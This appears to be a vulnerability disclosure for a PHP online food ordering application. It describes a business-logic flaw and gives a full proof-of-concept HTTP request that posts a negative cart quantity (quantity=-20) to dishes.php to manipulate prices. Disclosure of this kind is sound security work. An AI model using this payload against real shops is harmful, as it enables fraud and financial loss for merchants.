 # Business Logic in Online Food Ordering System

### Title: Business Logic in Online Food Ordering System
### CWE: Business Logic Errors

### Impact:
An attacker can manipulate product prices, potentially causing financial losses and negatively impacting revenue.

#### HTTP Request:
```
POST /OnlineFood-PHP/dishes.php?res_id=1&action=add&id=2 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/OnlineFood-PHP/dishes.php?res_id=1
Cookie: PHPSESSID=qr4c4tv56jj7l2j77ju7tpu9h8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


quantity=-20
```

### Proof with Screenshot:
![image](https://github.com/user-attachments/assets/24adf2fb-c4eb-497d-9684-2fdea2ff2ead)


## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
